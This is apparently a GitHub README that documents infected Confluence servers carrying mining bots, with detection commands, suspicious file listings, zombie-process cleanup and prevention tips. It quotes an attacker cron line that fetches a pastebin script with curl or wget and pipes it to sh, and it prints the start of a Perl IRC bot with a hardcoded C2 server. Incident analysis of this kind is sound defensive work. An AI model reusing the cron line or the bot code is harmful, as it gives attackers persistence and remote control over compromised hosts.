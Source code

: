 # Shell BotKiller

We'll post findings from an infected confluence-systems we investigated recently, to show how it looks/feel like. The most systems we took a look at were infected with mining-bots like kerberods.

With the rise of inexpensive Virtual Servers and popular services that install insecurely by default, coupled with some juicy vulnerabilities (read: RCE - Remote Code Execution), like CVE-2015-5377 and CVE-2015-1427, this year will be an interesting one for Elasticsearch. Elasticsearch provides plenty of targets for people to exploit and create server-based botnets but in fairness it is not only Elasticsearch that suffers from critical vulnerabilities there is also ShellShock, mongodb-exploits and very recently a bug that hit WebSphere, JBoss, Jenkins and OpenNMS.

## Commands for detect infections

1. Check crontab entries `ls -lrth /var/spool/cron/crontabs`
2. Check temp dir `ls -la /tmp`
3. Check shm dir `ls -la /dev/shm`
4. Check your dirs inside opt `ls -la /opt/`
5. Check zombie processes `ps -ef`

## How prevent it

1. Update your system/softwares
2. Set right permissions to your user

## Example of Infected Server

### Awkward crontab entries for a user
```shell
/var/spool/cron/crontabs # ls -lrth
total 4.0K
-rw------- 1 root netdev 285 Apr 15 15:34 tmp.Rj8JOI
-rw-r--r-- 1 root netdev   0 Apr 16 12:42 root
```

```
# cat tmp.Rj8JOI 

# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Mon Apr 15 17:34:25 2019)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/10 * * * * (curl -fsSL https://pastebin.com/raw/404NoMore||wget -q -O- https://pastebin.com/raw/404NoMore)|sh
```

### Files in /tmp that look suspicious
- See below for the lok_bot
- At least you get an infection-date
```shell
# ls -la /tmp

total 1460
drwxrwxrwt 1 root root    4096 Apr 29 08:05 .
drwxr-xr-x 1 root ro      4096 May 10  2018 ..
-rw-r--r-- 1 usr1 usr1       0 Apr 27 14:17 .354da7
-rw-r--r-- 1 usr1 usr1       5 Apr 22 06:23 .XIMunix
drwxr-xr-x 2 usr1 usr1    4096 Apr 19 17:45 .dba         <-- Bot
drwxrwx--- 2 usr1 usr1    4096 Apr 27 21:42 .sysinfo     <-- Bot
drwxr-xr-x 2 usr1 usr1    4096 Mar 13 08:41 hsperfdata_usr1
drwxr-xr-x 2 root root    4096 Oct  7  2016 hsperfdata_root
-rwx------ 1 usr1 usr1  480296 Apr 27 21:42 ib_cm
-rwx------ 1 usr1 usr1  480296 Apr 27 21:42 kworker_0:2
-rwx------ 1 usr1 usr1  473096 Apr 22 18:30 kworker_1:1
-rw-r--r-- 1 usr1 usr1       0 Apr 19 18:04 lok          <-- Bot
-rw-r--r-- 1 usr1 usr1      12 Apr 27 20:33 tmp1         <-- Bot
-rw-r--r-- 1 usr1 usr1       0 Apr 21 18:25 .changgggeerror <--Bot
drwxr-xr-x 2 usr1 usr1    4096 Apr 27 15:18 .dba         <-- Bot
-rw-r--r-- 1 usr1 usr1       0 Apr 29 06:38 .dbb         <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 17 06:57 04dlOCl      <-- Bot
-rwxr-xr-x 1 usr1 usr1 1099016 Apr 29 06:38 jGcLFA1      <-- Bot
drwxr-xr-x 2 usr1 usr1    4096 Apr 19 12:47 khugepageds  <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 23 00:22 lIFa09m      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 14 11:26 lLNCeDg      <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 15 00:37 lMBH5ME      <-- Bot

--- 400 lines deleted ----
```


### Files in /dev/shm that looks suspiciuous
- See below for the bot
- At least you get an infection-date

```shell
# ls -la /dev/shm

total 8
drwxrwxrwt 2 root   root     60 Apr 18 17:53 .
drwxr-xr-x 5 root   root    340 Oct 10  2018 ..
-rw-r--r-- 1 daemon daemon 7141 Apr 18 16:33 bt1.txt
-rwxrwxrwx 1 daemon daemon 621K Mar 18 06:51 1mm6dgJ          <-- maybe?
-rw-r--r-- 1 daemon daemon    0 Apr 12 07:48 ec2a6            <-- ???
-rw-r--r-- 1 daemon daemon    0 Apr 12 07:48 de33f4f911f20761 <-- ???
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:12 L2AJgih          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:12 77Ink36          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:15 H4m361b          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:15 1Gn6il2          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:29 JnImMDp          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:29 8N128a8          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:50 1bI0A61          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:50 Jb2jHPC          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 02:03 aEEC4K5          <-- exploit 
```

### Zombie processes

To kill a zombie (process) you have to kill its parent process (just like real zombies!), but the question was how to find it.

- Find the zombie

```shell
# ps aux | grep 'Z'
```

- What you get is Zombies and anything else with a Z in it, so you will also get the grep

```
# ps aux | grep 'Z'

USER       PID     %CPU %MEM  VSZ    RSS TTY      STAT START   TIME COMMAND
usr1       13572   0.0  0.0   7628   992 pts/2    S+   19:40   0:00 grep --color=auto Z
usr1       93572   0.0  0.0   0      0   ??       Z    19:40   0:00 something
```

- Find the zombie's parent

```shell
# pstree -p -s 93572

init(1)---cnid_metad(1311)---cnid_dbd(5145)
```

In this case you do not want to kill that parent process and you should be quite happy with one zombie, but killing the immediate parent process 5145 should get rid of it.


#### Example

```shell
# ps -ef

UID        PID  PPID  C STIME TTY          TIME CMD
usr1     1     0  1 Mar13 ?        12:56:36 /usr/bin/java -Djava.util.logging.config.file=/opt/atlassian/confluence/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Xms1024m -Xmx8192m -XX:MaxPermSize=512m -XX:+UseG1GC -Djava.awt.headless=true -Xloggc:/opt/atlassian/confluence/logs/gc-2019-03-13_08-41-53.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=5 -XX:GCLogFileSize=2M -XX:-PrintGCDetails -XX:+PrintGCTimeStamps -XX:-PrintTenuringDistribution -Djava.endorsed.dirs=/opt/atlassian/confluence/endorsed -classpath /opt/atlassian/confluence/bin/bootstrap.jar:/opt/atlassian/confluence/bin/tomcat-juli.jar -Dcatalina.base=/opt/atlassian/confluence -Dcatalina.home=/opt/atlassian/confluence -Djava.io.tmpdir=/opt/atlassian/confluence/temp org.apache.catalina.startup.Bootstrap start
usr1   336     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1   339     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   354     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1   361     1  0 Apr17 ?        00:00:00 [kill] <defunct>
usr1   858     1  0 Apr22 ?        00:00:00 [kill] <defunct>
usr1   903     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   960     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1  1015     1  0 Apr17 ?        00:00:00 [sh] <defunct>
usr1  1072     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1  1086     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1  1131     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1  1274     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1  1339     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1341     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1  1350     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1395     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1422     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1434     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1458     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1  1523     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1559     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1614     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1  1664     1  0 Apr21 ?        00:00:00 [sh] <defunct>
usr1  1726     1  0 Apr20 ?        00:00:00 [sh] <defunct>
usr1  1727     1  0 Apr20 ?        00:00:00 [sh] <defunct>
usr1  1748     1  0 Apr17 ?        00:00:00 [kill] <defunct>
```

## Example of bot

```perl
cat /dev/shm/bt1.txt


#!/usr/bin/perl
my $processo =("test123");

my @titi = ("index.php?page=","main.php?page=");

my $goni = $titi[rand scalar @titi];

my $linas_max='3';
my $sleep='7';
my @adms=("x", "y", "z", "w" );
my @hostauth=("local");
my @canais=("#3w");
chop (my $nick = `uname`);
my $servidor="193.56.28.207";
my $ircname =("g");
my $realname = ("g");
my @ircport = ("80","143");
my $porta = $ircport[rand scalar @ircport];
my $VERSAO = '0.5';
$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';
use IO::Socket;
use Socket;
use IO::Select;
chdir("/tmp");
$0="$processo"."\0"x16;;
my $pid=fork;
exit if $pid;
die "Problema com o fork: $!" unless defined($pid);

our %irc_servers;
our %DCC;
my $dcc_sel = new IO::Select->new();

$sel_cliente = IO::Select->new();
sub sendraw {
  if ($#_ == '1') {
    my $socket = $_[0];
    print $socket "$_[1]
    
--- others lines deleted ----
```